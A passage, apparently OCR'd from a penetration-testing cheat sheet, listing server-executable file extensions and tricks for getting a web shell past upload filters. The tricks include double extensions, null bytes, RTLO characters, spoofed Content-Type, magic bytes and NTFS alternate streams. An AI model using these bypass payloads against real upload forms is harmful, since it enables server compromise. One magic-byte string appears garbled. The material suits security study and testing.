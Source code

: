     .cer and .asa # (IIS <= 7.5)
    shell.aspx;1.jpg # (IIS < 7.0)
    shell.soap
    ```
* JSP : `.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .actions`
* Perl: `.pl, .pm, .cgi, .lib`
* Coldfusion: `.cfm, .cfml, .cfc, .dbm`
* Node.js: `.js, .json, .node`

### Upload tricks

- Use double extensions : `.jpg.php, .png.php5`
- Use reverse double extension (useful to exploit Apache misconfigurations where anything with extension .php, but not necessarily ending in .php will execute code): `.php.jpg`
- Random uppercase and lowercase : `.pHp, .pHP5, .PhAr`
- Null byte (works well against `pathinfo()`)
    * `.php%00.gif`
    * `.php\x00.gif`
    * `.php%00.png`
    * `.php\x00.png`
    * `.php%00.jpg`
    * `.php\x00.jpg`
- Special characters
    * Multiple dots : `file.php......` , in Windows when a file is created with dots at the end those will be removed.
    * Whitespace and new line characters
        * `file.php%20`
        * `file.php%0d%0a.jpg`
        * `file.php%0a`
    * Right to Left Override (RTLO): `name.%E2%80%AEphp.jpg` will became `name.gpj.php`.
    * Slash: `file.php/`, `file.php.\`, `file.j\sp`, `file.j/sp`
    * Multiple special characters: `file.jsp/././././.`
- Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`
    * `Content-Type : image/gif`
    * `Content-Type : image/png`
    * `Content-Type : image/jpeg`
    * Content-Type wordlist: [SecLists/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt)
    * Set the Content-Type twice: once for unallowed type and once for allowed.
- [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)
    * Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application.
        * PNG: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
        * JPG: `\xff\xd8\xff`
        * GIF: `GIF87a` OR `GIF8;`
    * Shell can also be added in the metadata
- Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character ":" will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server (e.g. "`file.asax:.jpg`"). This file might be edited later using other techniques such as using its short filename. The "::$data" pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. "`file.asp::$data.`")
